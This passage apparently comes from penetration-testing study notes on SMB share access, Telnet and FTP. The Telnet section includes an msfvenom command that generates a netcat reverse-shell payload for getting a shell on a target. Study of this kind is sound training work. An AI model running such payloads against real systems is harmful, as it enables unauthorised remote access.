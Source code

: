         smbget -R smb://ip/anonymous
        
    - To connect to a share : smbclient \\\\ip\\share-name
-------
# Telnet

## Understanding

- It is an application protocol it serves on port 23
- It uses clear text for communication
- telnet is the client and the syntax is : telnet ip port

## Enumerating

- Port Scanning
    
    Find for open ports using nmap
    

## Exploiting

- Connecting to telnet
    
    telnet ip port
    
- Payload
    
    If telnet server accepts commands then generate a payload with msfvenom and get the reverse shell.
    
    msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R ( This gives raw payload output )
    
- tcpdump
    
    If necessary start tcpdump to monitor packets and syntax is sudo tcpdump <ip> proto \\<packet-type> -i <interface>
    
    Ex, sudo tcpdump ip proto \\icmp -i eth0
-------

# FTP - File Transfer Protocol

## Understanding

- FTP is a protocol used for sharing files over a network
- It is a client-server model
- It runs default on port 21
- There are 2 modes of FTP connections
    - Active   —>   We(client) listens on a port and server connects to our listening port.
    - Passive   —>   Server listens on a port we(client) connect to that listening port.
- FTP communication is not encrypted.
